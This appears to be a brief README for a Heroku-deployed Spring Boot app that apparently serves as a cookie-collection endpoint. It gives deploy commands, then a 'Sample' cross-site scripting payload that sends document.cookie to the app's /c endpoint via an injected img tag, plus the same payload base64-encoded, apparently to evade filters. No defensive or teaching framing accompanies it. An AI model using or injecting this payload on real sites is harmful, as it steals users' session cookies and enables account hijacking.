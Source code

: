 ## How connect Heroku

https://devcenter.heroku.com/articles/deploying-spring-boot-apps-to-heroku


```shell
heroku create
git push heroku master:main
```

## Monitor
https://dashboard.heroku.com/apps


### Sample
```js
<script>
    document.write('<img src="https://glacial-oasis-93428.herokuapp.com//c?t=' + document.cookie + '" />')
</script>
```

### base64
```
PHNjcmlwdD5kb2N1bWVudC53cml0ZSgnPGltZyBzcmM9Imh0dHBzOi8vZ2xhY2lhbC1vYXNpcy05MzQyOC5oZXJva3VhcHAuY29tLy9jP3Q9JyArIGRvY3VtZW50LmNvb2tpZSArICciIC8+Jyk8L3NjcmlwdD4=
```